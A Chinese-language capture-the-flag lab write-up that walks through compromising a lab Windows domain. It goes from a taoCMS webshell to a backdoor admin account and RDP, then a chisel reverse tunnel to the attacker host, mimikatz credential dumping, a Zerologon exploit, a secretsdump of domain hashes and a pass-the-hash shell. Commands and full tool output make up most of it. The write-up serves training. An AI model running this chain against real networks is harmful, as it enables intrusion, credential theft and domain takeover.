


# lab03

:::info

场景介绍

> 重生之我是大黑客，在192.168.10.0/24网段发现了不得了的秘密。
>
> - 信息搜集
> - 权限提升
> - 权限维持
> - 横向移动

:::

## 入口点

```plaintext
http://192.168.10.10/
```

## 资产梳理

|       IP      |     Hostname    |
| :-----------: | :-------------: |
| 192.168.10.10 | DESKTOP-JFB57A8 |
| 192.168.20.10 | DESKTOP-JFB57A8 |
| 192.168.20.20 |     cyberweb    |
| 192.168.20.30 | WIN-7NRTJO59O7N |

## 入口机探测

直接使用 rustscan 进行扫描

```shell
┌──(randark㉿kali)-[~]
└─$ rustscan -a 192.168.10.10
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Because guessing isn't hacking.

[~] The config file is expected to be at "/home/randark/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.10.10:135
Open 192.168.10.10:139
Open 192.168.10.10:445
Open 192.168.10.10:3306
Open 192.168.10.10:3590
Open 192.168.10.10:5040
Open 192.168.10.10:49664
Open 192.168.10.10:49665
Open 192.168.10.10:49666
Open 192.168.10.10:49667
Open 192.168.10.10:49668
Open 192.168.10.10:49669
Open 192.168.10.10:49670
```

看起来有点奇怪，访问 3590 端口试试


用默认的 `admin:tao` 凭据登陆后台



## 入口机 taoCMS webshell

使用自带的文件管理功能，上传个 webshell 进行利用



成功建立连接


## flag - 1

位于 `C:\flag.txt`


## 入口机 信息收集

```shell
C:\phpstudy_pro\WWW> ipconfig
Windows IP 配置
以太网适配器 以太网实例 0:
   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::f073:77f7:e6f4:8099%17
   IPv4 地址 . . . . . . . . . . . . : 192.168.10.10
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.10.233
以太网适配器 以太网实例 0 2:
   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::3175:956e:8c21:757b%11
   IPv4 地址 . . . . . . . . . . . . : 192.168.20.10
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.20.1
```

添加个管理员用户并启用 RDP

```shell
net user randark Admin123### /add
net localgroup administrators randark /add

# enable RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
net start termservice
```


并使用 fscan 扫描一下二层内网

```shell
PS C:\Users\randark\Desktop> .\fscan64.exe -h 192.168.20.0/24 -p 1-65535

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
(icmp) Target 192.168.20.10   is alive
(icmp) Target 192.168.20.20   is alive
(icmp) Target 192.168.20.30   is alive
[*] Icmp alive hosts len is: 3
192.168.20.30:53 open
192.168.20.30:88 open
192.168.20.30:139 open
192.168.20.20:139 open
192.168.20.10:139 open
192.168.20.30:135 open
192.168.20.20:135 open
192.168.20.10:135 open
192.168.20.30:389 open
192.168.20.30:445 open
192.168.20.20:445 open
192.168.20.10:445 open
192.168.20.30:464 open
192.168.20.30:593 open
192.168.20.30:636 open
192.168.20.30:3269 open
192.168.20.30:3268 open
192.168.20.20:3306 open
192.168.20.10:3306 open
192.168.20.10:3389 open
192.168.20.10:3590 open
192.168.20.10:5040 open
192.168.20.10:5357 open
192.168.20.20:5985 open
192.168.20.20:8055 open
192.168.20.30:9389 open
```

## 入口机 代理搭建

在 kali 上建立监听

```shell
┌──(randark㉿kali)-[~]
└─$ ./tools/chisel_v1.11.3/chisel_1.11.3_linux_amd64 server -p 1337 --reverse
2025/10/30 21:08:45 server: Reverse tunnelling enabled
2025/10/30 21:08:45 server: Fingerprint HpKsouHybQ20MUPDeCqg7WZOEoZqOKeh8xjbMfjEOeA=
2025/10/30 21:08:45 server: Listening on http://0.0.0.0:1337
```

在入口机上执行

```shell
PS C:\Users\randark\Desktop> .\chisel.exe client 172.16.233.2:1337 R:0.0.0.0:10000:socks
2025/10/30 13:08:49 client: Connecting to ws://172.16.233.2:1337
2025/10/30 13:08:49 client: Connected (Latency 54.9151ms)
```

## cyberweb 前人的 webshell

对 `http://192.168.20.20:8055` 进行目录爆破

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains -q dirsearch -u "http://192.168.20.20:8055" -x 403,404

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/randark/reports/http_192.168.20.20_8055/_25-10-30_21-15-41.txt

Target: http://192.168.20.20:8055/

[21:15:41] Starting: 
[21:16:07] 500 -  661B  - /cgi-bin/printenv.pl
[21:16:14] 200 -    1KB - /favicon.ico
[21:16:39] 200 -   24B  - /robots.txt
[21:16:44] 301 -  243B  - /static..  ->  http://192.168.20.20:8055/static../
[21:16:44] 301 -  241B  - /static  ->  http://192.168.20.20:8055/static/
```

实际上，文件 `index.php` 就是 webshell


直接连接即可


## flag - 2

老位置


## cyberweb 信息收集

```shell
C:\phpstudy_pro\WWW\public> whoami
nt authority\system
 
C:\phpstudy_pro\WWW\public> systeminfo
主机名:           CYBERWEB
OS 名称:          Microsoft Windows Server 2012 R2 Standard
OS 版本:          6.3.9600 暂缺 Build 9600
OS 制造商:        Microsoft Corporation
OS 配置:          成员服务器
OS 构件类型:      Multiprocessor Free
注册的所有人:     Windows 用户
注册的组织:       
产品 ID:          00252-60020-02714-AA976
初始安装日期:     2024/12/23, 12:09:13
系统启动时间:     2025/10/30, 12:40:04
系统制造商:       Red Hat
系统型号:         KVM
系统类型:         x64-based PC
处理器:           安装了 1 个处理器。
                  [01]: Intel64 Family 6 Model 85 Stepping 4 GenuineIntel ~2000 Mhz
BIOS 版本:        SeaBIOS 1.16.3-2.el9, 2014/4/1
Windows 目录:     C:\Windows
系统目录:         C:\Windows\system32
启动设备:         \Device\HarddiskVolume1
系统区域设置:     zh-cn;中文(中国)
输入法区域设置:   zh-cn;中文(中国)
时区:             (UTC+08:00)北京，重庆，香港特别行政区，乌鲁木齐
物理内存总量:     1,023 MB
可用的物理内存:   348 MB
虚拟内存: 最大值: 2,047 MB
虚拟内存: 可用:   1,218 MB
虚拟内存: 使用中: 829 MB
页面文件位置:     C:\pagefile.sys
域:               cyberstrikelab.com
登录服务器:       暂缺
修补程序:         安装了 6 个修补程序。
                  [01]: KB2919355
                  [02]: KB2919442
                  [03]: KB2937220
                  [04]: KB2938772
                  [05]: KB2939471
                  [06]: KB2949621
网卡:             安装了 1 个 NIC。
                  [01]: Realtek RTL8139C+ Fast Ethernet NIC
                      连接名:      以太网实例 0
                      启用 DHCP:   否
                      IP 地址
                        [01]: 192.168.20.20
                        [02]: fe80::fc8f:a8e4:3b61:2b6d
Hyper-V 要求:     已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。
```

发现是域机器，直接用 mimikatz 抓取哈希

```shell
C:\> mimikatz.exe "privilege::debug" "exit"
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # exit
Bye!
 
C:\> mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # privilege::debug
Privilege '20' OK
mimikatz(commandline) # sekurlsa::logonpasswords
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CYBERWEB$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/10/30 12:40:15
SID               : S-1-5-20
    msv :    
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 3c4f68df929540b7f12b960f0aaae09b
     * SHA1     : 06830ee0e98a24a3fee604360a6f65dea8b117c9
    tspkg :    
    wdigest :    
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :    
     * Username : cyberweb$
     * Domain   : CYBERSTRIKELAB.COM
     * Password : 17 f5 ed 9a 5c 0f 74 33 a3 ee 8d 4a ac 8d ec bc 8a aa 04 de 89 9b e6 88 f9 c8 c1 c7 ef 49 77 43 5c 4c f2 ac 9a 2e 65 cf 89 e8 b8 8b 8b 4f 5f 8c 3e 66 7a 3a 1a 1b 71 b5 97 d7 f5 9e b4 6c b4 b3 4b b6 9b e7 80 dc d3 c1 7d d7 65 0d 23 fe 30 6f d5 e6 0c 09 33 d0 c2 8e dd db 7b a0 c6 6f 4a 9d bd 36 02 ad 41 66 e7 31 32 b3 96 1a 40 0a 51 3d 14 ed 0b 37 ed 72 1e fb 92 78 9e e2 2d a2 72 2c 90 13 90 34 a4 6a 2a e1 41 96 d7 2e b5 ed cb 5a e5 c8 73 7a 7b b2 37 90 89 90 01 b1 99 db 3a 0e 7d 2c 0f 17 5b 52 f3 a1 0b b9 8a d7 d7 bd 0b f7 bf e6 ad 89 7d 3c 6f aa 90 fb 57 d7 f6 8c 74 f2 9d 53 c5 35 11 d0 aa bb e4 58 a1 a8 41 d9 f0 67 b4 1a 2b 89 85 88 25 5d 4c 5b 20 b2 23 13 9e 86 bd 89 0e 33 7d 7e 8a 30 4c 3f b6 b7 b5 b1 e7 2b 
    ssp :    KO
    credman :    
Authentication Id : 0 ; 264795 (00000000:00040a5b)
Session           : Interactive from 0
User Name         : cyberweb
Domain            : CYBERSTRIKELAB
Logon Server      : WIN-7NRTJO59O7N
Logon Time        : 2025/10/30 20:41:36
SID               : S-1-5-21-3614065708-1162526928-2578637-1107
    msv :    
     [00010000] CredentialKeys
     * NTLM     : c377ba8a4dd52401bc404dbe49771bbc
     * SHA1     : d9ac14100bf4e36f6807dd3c29051983b2d58d3d
     [00000003] Primary
     * Username : cyberweb
     * Domain   : CYBERSTRIKELAB
     * NTLM     : c377ba8a4dd52401bc404dbe49771bbc
     * SHA1     : d9ac14100bf4e36f6807dd3c29051983b2d58d3d
    tspkg :    
    wdigest :    
     * Username : cyberweb
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :    
     * Username : cyberweb
     * Domain   : CYBERSTRIKELAB.COM
     * Password : qwe123!@#
    ssp :    KO
    credman :    
Authentication Id : 0 ; 177193 (00000000:0002b429)
Session           : Interactive from 1
User Name         : Administrator
Domain            : CYBERWEB
Logon Server      : CYBERWEB
Logon Time        : 2025/10/30 12:40:54
SID               : S-1-5-21-1199753642-983303870-2358876100-500
    msv :    
     [00010000] CredentialKeys
     * NTLM     : e4394700b5fc2b9cc8c727b6f330ce0b
     * SHA1     : 6233658f16e4ee327356e2239bc135e7403e80b1
     [00000003] Primary
     * Username : Administrator
     * Domain   : CYBERWEB
     * NTLM     : e4394700b5fc2b9cc8c727b6f330ce0b
     * SHA1     : 6233658f16e4ee327356e2239bc135e7403e80b1
    tspkg :    
    wdigest :    
     * Username : Administrator
     * Domain   : CYBERWEB
     * Password : (null)
    kerberos :    
     * Username : Administrator
     * Domain   : CYBERWEB
     * Password : (null)
    ssp :    KO
    credman :    
Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/10/30 12:40:16
SID               : S-1-5-19
    msv :    
    tspkg :    
    wdigest :    
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :    
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :    KO
    credman :    
Authentication Id : 0 ; 55017 (00000000:0000d6e9)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/10/30 12:40:16
SID               : S-1-5-90-1
    msv :    
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 4b041dd223094787b36183661ee37d77
     * SHA1     : ab7d1c884b8c1d6957ad0e6dfeb9d288cb5b48af
    tspkg :    
    wdigest :    
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :    
     * Username : CYBERWEB$
     * Domain   : cyberstrikelab.com
     * Password : )[.]tt HRzGs\;WR!xi&lOf-#uY <E>>A:V6817_3)5Nbt?n/Cz&KDw n7'P)(mv%XN sXMGiJb+\W7@?7s3f,yoF^-j0*f'\>*,vZe&!?'mIjdU2COYa_PH
    ssp :    KO
    credman :    
Authentication Id : 0 ; 54999 (00000000:0000d6d7)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/10/30 12:40:16
SID               : S-1-5-90-1
    msv :    
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 3c4f68df929540b7f12b960f0aaae09b
     * SHA1     : 06830ee0e98a24a3fee604360a6f65dea8b117c9
    tspkg :    
    wdigest :    
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :    
     * Username : CYBERWEB$
     * Domain   : cyberstrikelab.com
     * Password : 17 f5 ed 9a 5c 0f 74 33 a3 ee 8d 4a ac 8d ec bc 8a aa 04 de 89 9b e6 88 f9 c8 c1 c7 ef 49 77 43 5c 4c f2 ac 9a 2e 65 cf 89 e8 b8 8b 8b 4f 5f 8c 3e 66 7a 3a 1a 1b 71 b5 97 d7 f5 9e b4 6c b4 b3 4b b6 9b e7 80 dc d3 c1 7d d7 65 0d 23 fe 30 6f d5 e6 0c 09 33 d0 c2 8e dd db 7b a0 c6 6f 4a 9d bd 36 02 ad 41 66 e7 31 32 b3 96 1a 40 0a 51 3d 14 ed 0b 37 ed 72 1e fb 92 78 9e e2 2d a2 72 2c 90 13 90 34 a4 6a 2a e1 41 96 d7 2e b5 ed cb 5a e5 c8 73 7a 7b b2 37 90 89 90 01 b1 99 db 3a 0e 7d 2c 0f 17 5b 52 f3 a1 0b b9 8a d7 d7 bd 0b f7 bf e6 ad 89 7d 3c 6f aa 90 fb 57 d7 f6 8c 74 f2 9d 53 c5 35 11 d0 aa bb e4 58 a1 a8 41 d9 f0 67 b4 1a 2b 89 85 88 25 5d 4c 5b 20 b2 23 13 9e 86 bd 89 0e 33 7d 7e 8a 30 4c 3f b6 b7 b5 b1 e7 2b 
    ssp :    KO
    credman :    
Authentication Id : 0 ; 26457 (00000000:00006759)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/10/30 12:40:13
SID               : 
    msv :    
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 3c4f68df929540b7f12b960f0aaae09b
     * SHA1     : 06830ee0e98a24a3fee604360a6f65dea8b117c9
    tspkg :    
    wdigest :    
    kerberos :    
    ssp :    KO
    credman :    
Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CYBERWEB$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/10/30 12:40:12
SID               : S-1-5-18
    msv :    
    tspkg :    
    wdigest :    
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :    
     * Username : cyberweb$
     * Domain   : CYBERSTRIKELAB.COM
     * Password : (null)
    ssp :    KO
    credman :    
mimikatz(commandline) # exit
Bye!
```

## WIN-7NRTJO59O7N - zerologin

使用 nxc 进行利用

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains -q nxc smb 192.168.20.30 -d cyberstrikelab.com -u CYBERWEB$ -H 3c4f68df929540b7f12b960f0aaae09b
SMB         192.168.20.30   445    WIN-7NRTJO59O7N  [*] Windows 6.1 Build 7600 x64 (name:WIN-7NRTJO59O7N) (domain:cyberstrikelab.com) (signing:True) (SMBv1:False) 
SMB         192.168.20.30   445    WIN-7NRTJO59O7N  [+] cyberstrikelab.com\CYBERWEB$:3c4f68df929540b7f12b960f0aaae09b
```

尝试执行 zerologin 攻击

```shell
┌──(randark㉿kali)-[~/exploit/CVE-2020-1472]
└─$ proxychains -q python cve-2020-1472-exploit.py WIN-7NRTJO59O7N 192.168.20.30
Performing authentication attempts...
========================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

攻击完成之后，就可以窃取哈希

```shell
┌──(randark㉿kali)-[~/exploit/CVE-2020-1472]
└─$ proxychains -q impacket-secretsdump cyberstrikelab.com/WIN-7NRTJO59O7N\$@192.168.20.30 -no-pass -just-dc
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f349636281150c001081894de72b4e2b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5bc02b7670084dd30471730cc0a1672c:::
cyberstrikelab.com\cyberweb:1105:aad3b435b51404eeaad3b435b51404ee:f204ab1085c283f6ec7eae4810c7489b:::
WIN-7NRTJO59O7N$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:3c4f68df929540b7f12b960f0aaae09b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c4a86116c98ca4f216dd7e4b92bd7067d1125d59901e3463b9f4bb10cc822b25
Administrator:aes128-cts-hmac-sha1-96:3d9a6eb42fe6a536856089314eafb249
Administrator:des-cbc-md5:fedf5d49a4b9e94a
Administrator:rc4_hmac:f349636281150c001081894de72b4e2b
krbtgt:aes256-cts-hmac-sha1-96:81eac4fb1383dcbc80cb124aa6074c889f22c4801c0a7825bf8195f77c5cf725
krbtgt:aes128-cts-hmac-sha1-96:65195790b2a7748a2bab4d9fd0e4ef89
krbtgt:des-cbc-md5:196bd04fa28c8531
krbtgt:rc4_hmac:5bc02b7670084dd30471730cc0a1672c
cyberstrikelab.com\cyberweb:aes256-cts-hmac-sha1-96:f227b833b5e56339183eafb4515109e6c8973f7f8cfa349890aa0561dbca5aba
cyberstrikelab.com\cyberweb:aes128-cts-hmac-sha1-96:a83d6c82d012d151bd755d444a3d7492
cyberstrikelab.com\cyberweb:des-cbc-md5:a1f762523e7680f4
cyberstrikelab.com\cyberweb:rc4_hmac:f204ab1085c283f6ec7eae4810c7489b
WIN-7NRTJO59O7N$:aes256-cts-hmac-sha1-96:4715be0a05fa5448f368d1542b1a3117301d9b69ef8044a76256dbfcdce33e93
WIN-7NRTJO59O7N$:aes128-cts-hmac-sha1-96:518e862b4f821ec9894373f2df4bb8b4
WIN-7NRTJO59O7N$:des-cbc-md5:9291ce2a765d6270
WIN-7NRTJO59O7N$:rc4_hmac:31d6cfe0d16ae931b73c59d7e0c089c0
CYBERWEB$:aes256-cts-hmac-sha1-96:31a33c1fe3bc007cab6d9c28a2b0e23d67b26a4e859b6cad8a83b024f10401ae
CYBERWEB$:aes128-cts-hmac-sha1-96:84b07291fbf6c3c35831dcf4ff5f845a
CYBERWEB$:des-cbc-md5:a17c1ac245d3e35e
CYBERWEB$:rc4_hmac:3c4f68df929540b7f12b960f0aaae09b
[*] Cleaning up... 
```

接下来直接 PTH 即可

## flag - 3

```shell
┌──(randark㉿kali)-[~/exploit/CVE-2020-1472]
└─$ proxychains -q impacket-smbexec cyberstrikelab.com/Administrator@192.168.20.30 -hashes :f349636281150c001081894de72b4e2b
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>type C:\flag.txt
go-flag{ueoJt7eB6AQL8OpL}
```
